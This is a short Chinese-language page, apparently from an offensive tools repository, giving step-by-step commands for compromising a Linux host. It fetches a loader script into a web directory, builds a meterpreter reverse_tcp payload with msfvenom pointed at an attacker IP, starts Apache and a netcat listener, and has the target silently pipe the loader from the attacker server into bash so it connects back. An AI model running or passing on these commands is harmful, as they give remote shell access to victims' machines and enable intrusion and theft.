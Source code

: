 ## Loader

下载脚本到 Web 目录

```shell
┌──(root㉿kali)-[~]
└─# wget https://raw.githubusercontent.com/jadensalas469466/tools/refs/heads/main/attack/loader.sh -O /var/www/html/upload/loader.sh
```

在云服务器上生成 Payload

```shell
┌──(root㉿kali)-[~]
└─# msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=[attack_ip] LPORT=[port] -f elf -o /var/www/html/upload/payload
```

开启 Web 服务并使用 Netcat 监听 `[port]` 端口

```shell
┌──(root㉿kali)-[~]
└─# systemctl start apache2.service && nc -l -p [port]
```

使目标下载 Loader 脚本，即可上线

```shell
root@debian:~# nohup curl -fsSL http://[attack_ip]/upload/loader|bash -sh > /dev/null 2>&1 &
```

---

Refrences

- [Loader](https://github.com/jadensalas469466/tools/blob/main/attack/loader.sh)

